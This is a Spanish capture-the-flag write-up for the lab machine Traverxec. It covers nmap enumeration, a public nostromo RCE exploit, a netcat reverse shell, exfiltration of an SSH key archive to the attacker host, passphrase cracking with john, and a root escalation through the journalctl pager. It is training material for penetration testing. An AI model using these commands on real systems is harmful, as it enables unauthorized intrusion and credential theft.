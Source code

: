 ## 1. Enumeración
Para identificar la máquina en nuestra red se puede hacer uso de herramientas como netdiscover, arp-scan o inlcuso nmap. Una vez localizado se emplea nmap para lanzar un scan de puertos:

```sh
$ nmap -sV -T4 -open 10.10.10.165
```
![image](./img/Traverxec/01-nmap.png)

Se pueden ver servicios interesantes como:
* ssh (22)
* HTTP (80)

También, es interesante, que la máquina objetivo está corriendo un Linux. De momento solo podemos ver que se trata de un Debian; más adelante, sabremos con exactitud qué distro es.

## 2. Explotación
Vamos a comenzar a buscar si existe alguna vulnerabilidad para el servidor web, el cual nmap nos dice que se trata de <kbd>nostromo. 1.9.6</kbd>. Para ello vamos a Google y, en los primeros resutlados, nos aparece una entrada en [exploit-db](https://www.exploit-db.com).

* https://www.exploit-db.com/exploits/47837

Básicamente este exploit nos permitirá ejecutar código remoto en la máquina debido a una vulnerabilidad que presenta dicho servidor web.

Una vez descargado el exploit procedemos a ver cómo hay que ejecutarlo.

![image](./img/Traverxec/02-exploit.png)

Bien, pues solamente hemos de añadir la IP de la máquina objetivo, el puerto (80) y el comando que queremos que se ejecute en dicha máquina.

Vamos a probar con un ejemplo, vamos a ejecutar <kbd>uname -a</kbd> para detectar el nombre y la versión de la distribución de Linux:

![image](./img/Traverxec/03-uname.png)

Perfecto, ya sabemos con exactitud qué tipo de máquina estamos intentando atacar.

A continuación vamos a intentar abrir una shell en remoto. Esta tarea la vamos a realizar mediante <kbd>nc</kbd>. Lo que haremos será poner nuestra máquina local a la espera de alguna conexión entrante; esa conexión entrante la hará la máquina objetivo.

```sh
$ nc -lnvp 7878
```

Y en otra terminal ejecutaremos el siguiente comando:

```sh
$ python cve2019_16278.py 10.10.10.165 80 "nc -c bash <local_ip> 7878"
```
> <local_ip> se cambiaría por nuestra IP.

Una vez ejecutado, nuestra terminal recibirá conexión de la máquina objetivo, por lo que ahora podremos ejecutar comandos.

![image](./img/Traverxec/04-whoami.png)

Como se puede ver en la anterior captura, ahora sabemos con qué usuario estamos entrando en la máquina objetivo.

Ahora vamos a hacer un spawn del proceso para conseguir con ello una terminal. Para ello ejecutamos lo siguiente en la terminal donde acabamos de hacer el whoami:

```sh
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](./img/Traverxec/05-spawn.png)

Acabamos de conseguir una terminal en la máquina objetivo como usuario www-data.

Procedemos a ver qué usuarios hay en la máquina, para ello vamos a hacer un <kbd>ls</kbd> de la carpeta home.

![image](./img/Traverxec/06-ls.png)

Con esto vemos que existe un usuario que se llama david. Intentamos listar qué hay dentro de la carpeta de david.

![image](./img/Traverxec/07-ls_david.png)

Vaya, demasiado bueno para ser verdad... No tenemos permisos para ver lo que hay dentro.

Volvemos sobre nuestros pasos y vamos a ver si hay algún archivo de configuración referente al servidor web que nos de alguna pista para poder proseguir.

Nos situamos sobre la carpeta <kbd>/var</kbd> y hacemos un listado de lo que hay dentro.

Vaya, podemos observar que dentro de /var hay una carpeta que se llama <kbd>/nostromo</kbd>, pues bien vamos a meternos en ella. 

Una vez que estamos dentro, nos damos cuenta de que existe un carpeta de configuración que se llama <kbd>/conf</kbd>, procedemos a entrar en ella. A continuación nos percatamos de que existe un archivo .cfg, vamos a abrirlo y ver lo que hay dentro.

```sh
$ cat /var/nostromo/conf/nhttpd.conf
```
![image](./img/Traverxec/08-cat_nhttpd_conf.png)

Este archivo de configuración nos da mucha información, sobre todo el fichero <kbd>/var/nostromo/conf/.htpasswd</kbd> y la carpeta <kbd>/public_www</kbd>; por lo que vamos a ver qué hay dentro de esa carpeta.

![image](./img/Traverxec/09-ls_public.png)

Observamos que hay una carpeta que se llama <kbd>/protected_area</kbd>, procedamos a listar lo que hay dentro de esta carpeta.

![image](./img/Traverxec/10-ls_protected.png)

Vamos a descargarnos ese archivo comprimido y ver qué es lo que hay dentro... pero podemos intuir que se tratan de claves privadas. Para descargar dicho archivo nos ayudaremos, una vez más, de netcat, por lo que en nuestra máquina pondremos un netcat a la escucha de un archivo:

```sh
$ nc -l -p 1234 > download.tgz < /dev/null
```

Por otra parte, en la terminal de la máquina objetivo vamos a ejecutar el siguiente comando:

```sh
$ cat backup.ssh-identity-files.tgz | netcat <local_ip> 1234
```

Procedemos ahora a descomprimir dicho archivo comprimido:

```sh
$ tar -zxvf download.tgz
```
![image](./img/Traverxec/11-tar_david.png)

Se puede ver que, efectivamente, eran las claves ssh privadas de david.

Vamos a intentar conectarnos por ssh a la máquina usando las credeciales que acabamos de obtener de david:


```sh
$ ssh -i id_rsa david@10.10.10.165
```
![image](./img/Traverxec/12-ssh_fail_david.png)

Vaya, no tenemos la password... Vamos a probar a reventar la clave por fuerza bruta. Con todo esto vamos a usar <kbd>/ssh2john</kbd> para obtener el hash y luego pasarlo por el mítico <kbd>/john</kbd> y ver si la clave está por defecto en nuestro diccionario de claves.


```sh
$ /usr/share/john/ssh2john.py id_rsa > hash.txt
```

![image](./img/Traverxec/13-hash_txt.png)

```sh
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image](./img/Traverxec/14-key_ssh.png)

Pues ahí tenemos la clave para conectarnos por ssh. Vamos a conectarnos como david usando la clave que acabamos de obtener.

![image](./img/Traverxec/15-david_ssh.png)

Genial, ya estamos dentro. Pues ahora vamos a coger la flag de nuestro usuario david.

```sh
$ cat user.txt
```

Al  listar el contenido de la carpeta david vemos que hay una carpeta que se llama bin. Dentro de dicha carpeta un fichero con permisos de ejecución que se llama <kbd>server-stats.sh</kbd>. Vamos a ejecutarlo.

![image](./img/Traverxec/16-server_stats_sh.png)

Ahora, vamos a ver qué es lo que hay dentro de dicho archivo.

![image](./img/Traverxec/17-cat_server_stats_sh.png)

Nos llama la atención la última línea, la cual, nos da la pista de que se está ejecutando con permiso de administrador; bien pues vamos a ejecutar solamente la última línea, pero omitimos la pipe que ejecuta un cat:

```sh
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

Al ponerse en marcha este comando nos da la opción a poder ejecutar lo que queramos, pero hemos de añadir un ! a lo que vayamos a ejecutar, en este caso sería:

![image](./img/Traverxec/18-root_whoami.png)

```sh
! cat /root/root.txt
```

Y ya con esto tendríamos la flag de root.
